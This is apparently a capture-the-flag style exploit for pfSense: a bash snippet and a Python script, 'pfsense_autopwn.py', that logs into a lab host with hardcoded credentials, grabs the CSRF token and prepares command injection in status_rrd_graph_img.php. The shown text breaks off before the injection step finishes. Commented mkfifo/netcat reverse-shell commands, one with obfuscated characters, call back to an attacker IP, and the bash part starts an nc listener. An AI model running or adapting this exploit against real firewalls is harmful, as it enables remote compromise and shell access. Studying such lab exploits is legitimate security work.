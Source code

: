 ```bash
ampersant=$(printf "\55")
# command="rm+${OLDPWD}tmp${OLDPWD}f;mkfifo+${OLDPWD}tmp${OLDPWD}f;cat+${OLDPWD}tmp${OLDPWD}f|${OLDPWD}bin${OLDPWD}sh+${hyphen}i+2>${ampersant}1|nc+10.0.0.1+1234+>${OLDPWD}tmp${OLDPWD}f"

nc -nlvp 443
./bin/python3 pfsense_autopwn.py
# :)

# Interactive Shell
nvim pfsense_autopwn.py
```

> **pfsense_autopwn.py**:

```python
#!/usr/bin/python3

import requests,sys,signal,urllib3,pdb,re,time,threading
from pwn import *

def def_handler(sig,frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
signinUrl = "https://10.10.10.60/index.php"
rceUrl = "https://10.10.10.60/status_rrd_graph_img.php?database=queues;"
username = "rohit"
password = "pfsense"
lport = 443
# command = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 443 >/tmp/f"

def signInPfsense():

    s = requests.session()
    urllib3.disable_warnings()
    s.verify = False
    r = s.get(signinUrl)

    csrf_magic_token = re.findall(r'__csrf_magic\' value="(.*?)" />', r.text)

    p1 = log.progress("SignIn")
    time.sleep(2)
    p1.status("Start Authentication process")

    post_data = {
        '__csrf_magic': csrf_magic_token,
        'usernamefld': username,
        'passwordfld': password,
        'login': 'Login'
    }

    r = s.post(signinUrl, data=post_data)
    if "pfSense.localdomain - Status: Dashboard" not in r.text:
        p1.failure("Unsuccessful SignIn")
        sys.exit(1)

    p1.success('Successfully SignIn')

    p2 = log.progress("RCE")
    time.sleep(2)
```